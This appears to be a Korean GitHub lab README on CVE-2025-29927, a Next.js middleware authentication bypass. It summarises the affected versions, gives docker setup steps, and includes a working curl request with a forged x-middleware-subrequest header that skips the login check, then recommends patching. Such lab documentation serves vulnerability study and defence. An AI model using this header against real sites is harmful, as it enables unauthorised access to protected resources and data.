


# CVE-2025-29927

> [천재권 (@wornjss1002)](https://github.com/wornjss1002)

 

### 요약

- Next.js는 서버 사이드 렌더링, 정적 사이트 생성, 통합 라우팅 시스템 등의 기능을 제공하는 인기 있는 React 기반 웹 애플리케이션 프레임워크
- 인증 및 권한 부여를 위해 미들웨어를 사용하는 구성에서, 버전 14.2.25 및 15.2.3 이전의 버전들은 인증 우회 취약점에 노출되어 있음
- 이 취약점을 이용하면 공격자가 x-middleware-subrequest 헤더를 조작하여 미들웨어 기반 보안 제어를 우회하고, 보호된 자원 및 민감한 데이터에 무단으로 접근할 수 있습니다

 

### 환경 구성 및 실행

- `docker compose up -d`를 실행하여 테스트 환경을 실행
- `curl -i http://your-ip:3000` 정상적인 인증 없이 대시보드에 접근을 시도하면, 로그인 페이지로 리디렉션

- `curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000`
  - 요청에 다음과 같이 x-middleware-subrequest 헤더를 추가합니다. 이 때 값은 middleware:middleware:middleware:middleware:middleware로 설정
  - Next.js 미들웨어가 이 헤더를 잘못 처리하게 되어 인증 검사를 우회

 

### 결과

 

### 정리

  이 취약점은 공격자가 인증 우회를 통해 보호된 자원에 접근할 수 있게 만들어, 민감한 정보가 유출될 위험이 있다. 해당 취약점을 사전에 점검하고 신속히 패치하는 것이 중요하다.
